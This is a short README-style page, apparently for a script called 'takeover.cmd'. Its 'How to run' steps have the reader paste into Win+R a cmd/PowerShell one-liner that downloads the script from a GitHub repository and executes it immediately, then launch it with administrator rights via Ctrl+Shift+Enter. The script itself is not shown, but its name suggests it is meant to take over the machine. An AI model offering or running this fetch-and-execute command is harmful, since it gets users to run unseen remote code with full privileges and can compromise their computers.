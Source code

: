 **How to run:**
- Win+R
- Paste:
```
cmd /k powershell  -command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/Fidasek009/1337/main/takeover.cmd -OutFile .\takeover.cmd; .\takeover.cmd"
```
- Ctr+Shift+Enter
